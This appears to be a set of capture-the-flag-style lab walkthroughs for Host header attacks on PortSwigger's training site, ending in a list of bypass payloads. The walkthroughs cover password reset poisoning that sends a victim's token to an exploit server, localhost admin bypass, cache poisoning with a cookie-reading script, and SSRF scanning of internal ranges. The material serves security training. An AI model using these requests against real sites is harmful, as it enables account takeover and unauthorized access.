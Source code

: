 ## Basic password reset poisoning

1) Investigate (do) full "Forgot your password?" functionality to your own account.
2) Notice that the POST /forgot-password request is used to trigger the password reset email. This contains the username whose password is being reset as a body parameter.
3) change the Host header to your exploit server's domain name (YOUR-EXPLOIT-SERVER-ID.exploit-server.net) and change the username parameter to carlos. Send the request.
4) Go to your exploit server and open the access log. You will see a request for GET /forgot-password with the temp-forgot-password-token parameter containing Carlos's password reset token.
5) Go to your email client and copy the genuine password reset URL from your first email. Visit this URL in the browser, but replace your reset token with the one you obtained from the access log.

## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.


## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.

## Web cache poisoning via ambiguous requests (x-Cache-hit)

1) Exploit server -> and create a file at `/resources/js/tracking.js` containing the payload `alert(document.cookie)`.
2)
   ```
    GET /?cb=123 HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    ```

## Routing-based SSRF

1) Set `Host: 192.168.0.§0§`; Payload -> numbers from 0 to 255 with step 1.
2) `GET /admin/delete?csrf=QCT5OmPeAAPnyTKyETt29LszLL7CbPop&username=carlos`.
3) Copy the session cookie from the Set-Cookie header in the displayed response and add it to your request.
4) Right-click on your request and select Change request method. Burp will convert it to a `POST` request. Send.

## SSRF via flawed request parsing

1) Observe that you can also access the home page by supplying an absolute URL in the request line as follows:
`GET https://YOUR-LAB-ID.web-security-academy.net/`.
2) It means that its possible now to modify header:
   
   ```
   GET https://YOUR-LAB-ID.web-security-academy.net/
   Host: BURP-COLLABORATOR-SUBDOMAIN
   ```
3)  Go to Intruder and deselect Update Host header to match target. Use the Host header to scan the IP range 192.168.0.0/24.
4)  In Burp Repeater, append /admin to the absolute URL in the request line and send the request. Not you have access.

## Host validation bypass via connection state attack

1) Take `GET /` Request:
   Change the path to /admin.
   Change Host header to 192.168.0.1.
2) you are simply redirected to the homepage. Duplicate the tab, then add both tabs to a new group.
3) In the first tab:
   Change the path back to /.
   Change the Host header back to `YOUR-LAB-ID.h1-web-security-academy.net`.

4) Send `group in sequence (single connection)`. Change the Connection header to keep-alive.

## Bypasses:
```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```

```
Host: target.com
X-Forwarded-Host: admin.target.com
```

```
Host: admin.target.com
```

```
Host: target.com:80
```

```
GET /admin HTTP/1.0
```

```
Host: target.com
X-Original-Host: admin.target.com
```

```
Host: admin%2etarget.com
```

```
Host: target.com.exploit-server.com
```
